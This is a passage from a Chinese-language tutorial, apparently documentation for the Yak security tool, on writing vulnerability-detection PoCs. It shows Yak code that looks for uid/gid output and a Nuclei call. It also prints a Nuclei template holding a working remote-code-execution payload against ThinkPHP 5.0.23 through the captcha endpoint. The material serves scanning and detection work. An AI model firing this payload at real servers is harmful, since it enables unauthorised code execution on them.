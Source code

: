 ```go
for rsp = range reqs {
    if rsp.Error != nil {
        log.error(rsp.Error)
        continue
    }

    if re.Match(`((uid\=\d*)|(gid\=\d*)|(groups=\d*))`, rsp.ResponseRaw) {
        println("found thinkphp vuls...")
        break
    }
}
```

通过上述代码，我们可以很容易知道原始数据包是啥。通常我们可以直接把 `Burpsuite` 的数据包直接复制在这里，然后直接编写需要检测的正则即可。

:::caution

原始数据包将会自动修复一些可能的错误，比如说数据包前的空行，自动修正 Content-Length，根据 Host 启动提取需要访问的目标。

所以用户不必严格追去数据包的格式必须怎么样，Yak 的 `fuzz` 能自动修正一部分数据包的错误

:::

### 使用 `nuclei` 编写 PoC

如果是担心 Yak 编写 PoC 会并不那么通用，或者 Yak 的分享渠道并不能满足用户的需求，那么用户可以考虑使用 `nuclei` 的 PoC 编写

我们直接使用

```go
res, err := nuclei.Scan("http://127.0.0.1:8080", nuclei.tags("thinkphp"))
die(err)
for r := range res {
   dump(r)
}
```

即可调用到我们设置了相应 Tag 的 PoC。[`nuclei-templates` 中 Thinkphp 的 PoC](https://github.com/projectdiscovery/nuclei-templates/blob/3ef39c173e4cc1937158c6ad9ab30d2f2e7366d1/vulnerabilities/thinkphp/thinkphp-5023-rce.yaml)

PoC 样例如下：

```yaml
id: thinkphp-5023-rce

info:
  name: ThinkPHP 5.0.23 RCE
  author: dr_set
  severity: critical
  description: Thinkphp5 5.0(<5.0.24) Remote Code Execution.
  reference: https://github.com/vulhub/vulhub/tree/0a0bc719f9a9ad5b27854e92bc4dfa17deea25b4/thinkphp/5.0.23-rce
  tags: thinkphp,rce

requests:
  - method: POST
    path:
      - "{{BaseURL}}/index.php?s=captcha"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: "_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1"
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "PHP Extension"
          - "PHP Version"
```